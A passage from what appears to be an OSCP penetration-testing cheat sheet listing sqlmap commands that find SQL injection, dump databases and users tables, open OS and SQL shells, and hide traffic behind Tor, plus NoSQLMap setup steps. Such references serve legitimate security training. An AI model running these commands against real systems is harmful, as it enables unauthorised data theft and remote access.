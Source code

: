             `sqlmap -o -u http://$ip/index.php --forms --dbs  `
               
            `sqlmap -o -u "http://$ip/form/" --forms`
               
          - Sqlmap check form for injection  
         
             `sqlmap -o -u "http://$ip/vuln-form" --forms -D database-name -T users --dump`
                 
           - Enumerate databases  
           
              `sqlmap --dbms=mysql -u "$URL" --dbs`
               
            - Enumerate tables from a specific database  
                 
              `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables  `
                 
            - Dump table data from a specific database and table  
           
               `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump `
                   
            - Specify parameter to exploit  
             
               `sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2 `
                   
            - Specify parameter to exploit in 'nice' URIs (exploits param1)
             
                `sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs `
                     
            - Get OS shell  
             
                 `sqlmap --dbms=mysql -u "$URL" --os-shell`
                       
            - Get SQL shell  
                       
                 `sqlmap --dbms=mysql -u "$URL" --sql-shell`
                       
             - SQL query  
               
                `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"`
                         
             - Use Tor Socks5 proxy  
                 
                `sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs`
       
       
-   **NoSQLMap Examples**
       You may encounter NoSQL instances like MongoDB in your OSCP journies (`/cgi-bin/mongo/2.2.3/dbparse.py`).  NoSQLMap can help you to automate NoSQLDatabase enumeration.
       
  -   NoSQLMap Installation
       
            git clone https://github.com/codingo/NoSQLMap.git
            cd NoSQLMap/
            ls
            pip install couchdb
            pip install pbkdf2
            pip install ipcalc
            python nosqlmap.py --help
 
-   Password Attacks
    --------------------------------------------------------------------------------------------------------------
 
    -   AES Decryption  
        http://aesencryption.net/
 